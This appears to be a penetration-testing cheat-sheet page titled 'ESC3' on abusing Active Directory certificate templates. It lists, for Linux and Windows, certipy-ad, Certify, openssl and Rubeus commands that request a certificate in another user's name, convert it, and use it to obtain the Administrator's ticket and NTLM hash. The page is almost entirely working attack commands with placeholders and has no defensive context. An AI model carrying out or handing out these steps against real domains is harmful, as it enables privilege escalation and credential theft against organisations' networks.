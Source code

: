 # ESC3

{% tabs %}
{% tab title="Linux" %}
Request the certificate

{% code overflow="wrap" %}
```bash
certipy-ad req -username <User>@<Ip> -password <Pass> -ca <CA-Name> -target <Target> -template <Template> -upn <Target User>@<Ip> -dns <target FQDN> -debug
```
{% endcode %}


{% endtab %}

{% tab title="Windows" %}
{% code overflow="wrap" %}
```powershell
Certify.exe request /ca:<Target dc>\<CA-Name> /template:<Vulnerable Template> /altname:<Target Template>
```
{% endcode %}

Convert the key and certificate to PFX12 format

{% code overflow="wrap" %}
```powershell
openssl.exe pkcs12 -in cert.pem -inkey private.key -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
{% endcode %}

Upload Rubeus and the cert.pfx onto the machine and retrieve the NTLM hash

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/Pasted image 20230719143559.png" alt=""><figcaption></figcaption></figure>
{% endtab %}
{% endtabs %}
